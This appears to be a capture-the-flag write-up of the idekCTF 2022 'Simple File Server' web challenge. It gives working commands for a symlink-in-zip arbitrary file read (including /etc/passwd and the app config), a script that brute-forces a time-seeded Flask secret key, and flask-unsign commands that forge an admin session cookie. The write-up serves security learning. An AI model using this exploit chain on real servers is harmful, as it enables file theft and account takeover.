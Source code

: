 ```yaml
---
layout: post
title: idekCTF 2022 - Simple File Server
---
```


Simple File Server was a medium difficulty web challenge from idekCTF 2022. We abuse an symbolic link within a zip file to achieve arbitrary file read. This allows reading flask configuration files, which in combination with server initialisation time from web server logs can be used to determine the flask secret key. This can then be used to forge a flask session cookie that gives access to the flag endpoint.

---

The challenge included a fairly simple web application. There are both login and register options. We register a user `guest:guest` and continue. We are now presented with a file upload functionality.

![](assets/image/attachments/2023-02-07-idekCTF2022-simple-file-server.png)
{:.glightbox}

We see we can upload a zip file and it will be automatically extracted. Let's look at the code for the endpoint.

```python
...

@app.route("/upload", methods=["GET", "POST"])
def upload():
    if not session.get("uid"):
        return redirect("/login")
    if request.method == "GET":
        return render_template("upload.html")

    if "file" not in request.files:
        flash("You didn't upload a file!", "danger")
        return render_template("upload.html")

    file = request.files["file"]
    uuidpath = str(uuid.uuid4())
    filename = f"{DATA_DIR}uploadraw/{uuidpath}.zip"
    file.save(filename)
    subprocess.call(["unzip", filename, "-d", f"{DATA_DIR}uploads/{uuidpath}"])
    flash(f'Your unique ID is <a href="/uploads/{uuidpath}">{uuidpath}</a>!', "success")
    logger.info(f"User {session.get('uid')} uploaded file {uuidpath}")
    return redirect("/upload")

...
```

The interesting part is the line `subprocess.call(["unzip", filename, "-d", f"{DATA_DIR}uploads/{uuidpath}"])`. It is not possible to use a zip slip style attack here because the `unzip` binary patches it directly. It is however, possible to use symbolic links. How does that work? well if we create a soft link like so:
```
$ ln -s ../../../../../../../etc/passwd symlink.txt
```

And zip it into zip file with the `--symlinks` argument with:

```
$ zip --symlinks test.zip symlink.txt
```

When the file is unzipped on the remote server, the symbolic link will be preserved, allowing us to read any file we know the path of onn the remote server. Because the Dockerfile is included with the challenge we can verify the location of any file we want to read. 

There is a config file with a redacted secret, so let's read that first

```
$ ln -s ../../../../../../../app/config.py symlink.txt
$ zip --symlinks test.zip symlink.txt
```

Upload test.zip and navigate to `/uploads/<uuid>/symlink.txt` and read the remote file.

```python
import random
import os
import time

# SECRET_OFFSET = 0 # On our local copy, this is REDACTED
SECRET_OFFSET = -67198624  # True value from the remote server
random.seed(round((time.time() + SECRET_OFFSET) * 1000))
os.environ["SECRET_KEY"] = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
```

With this, we have one of the two pieces to reverse the value used to seed the random number generator, which would allow us to reverse the flask secret key. We don't know what time the server started is the only problem...

Let's take another look at the top of `app.py`.

```python
import logging
import os
import re
import sqlite3
import subprocess
import uuid
import zipfile

from flask import (Flask, flash, redirect, render_template, request, abort,
                   send_from_directory, session)
from werkzeug.security import check_password_hash, generate_password_hash


app = Flask(__name__)
DATA_DIR = "/tmp/"

# Uploads can only be 2MB in size
app.config['MAX_CONTENT_LENGTH'] = 2 * 1000 * 1000

# Configure logging
LOG_HANDLER = logging.FileHandler(DATA_DIR + 'server.log')
LOG_HANDLER.setFormatter(logging.Formatter(fmt="[{levelname}] [{asctime}] {message}", style='{'))
logger = logging.getLogger("application")
logger.addHandler(LOG_HANDLER)
logger.propagate = False
for handler in logging.root.handlers[:]:
    logging.root.removeHandler(handler)
logging.basicConfig(level=logging.WARNING, format='%(asctime)s %(levelname)s %(name)s %(threadName)s : %(message)s')
logging.getLogger().addHandler(logging.StreamHandler())

...

```

Included in the log format is a timestamp, `asctime`. If there was a log message when the server started we can use that to get a close estimate to the output of `time.time()`, and we can bruteforce around it to find the exact value.

We retrieve `/tmp/server.log` via the same method as before and find the timestamp `2023-01-14 19:57:21 +0000`. We use an online epoch converter and find the corresponding timestamp to be 1673726220. With the missing information now obtained we can start reversing the seed. The only problem left is that the timestamp we get is only accurate to the seconds precision, but `time.time()` has a millisecond component, and the `* 1000` means that the first three decimal places become significant. For example:
```
# we have
1673726220
# which is equivalent to
1673726220.0000000
# but the true timestamp is 
1673726220.ABCDEFG
# so after the * 1000 we have
1673726220ABC.DEFG
# after round
1673726220ABC
```

So we need to bruteforce the last three digits, let's go two seconds both directions to account for any discrepancies between the logs and `time.time()`.

```python
import random
import os
import time

SECRET_OFFSET = -67198624


#os.environ["SECRET_KEY"] = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")

timestamp = 1673726220

timestamp =  timestamp + SECRET_OFFSET

start = (timestamp - 2) * 1000
end = (timestamp + 2) * 1000


with open("keys", 'w') as fh:
    for i in range(start, end):
        random.seed(i)
        fh.write("".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "") + '\n')

```

With the file of possible keys, we can now bruteforce our flask session with the utility `flask-unsign`.

```
$ flask-unsign -u -c 'eyJhZG1pbiI6ZmFsc2UsInVpZCI6ImFkbWluIn0.Y8MJOg.amfLkMNcyPV_uJ1Wjt65_4S2Ago' --wordlist keys --threads 10 --no-literal-eval  
[*] Session decodes to: {'admin': False, 'uid': 'guest'} 
[*] Starting brute-forcer with 10 threads.. 
[+] Found secret key after 1792 attemptseced99571547 
b'950b781d9bc7f04e697db73c1b3e5496'
```

Now we sign it with:

```
$ flask-unsign -s -c '{'admin': True, 'uid': 'admin'}' --secret '950b781d9bc7f04e697db73c1b3e5496'
```

Update the session cookie in your browser, and browse to `/flag` to get the flag.

idek{s1mpl3_expl01t_s3rver}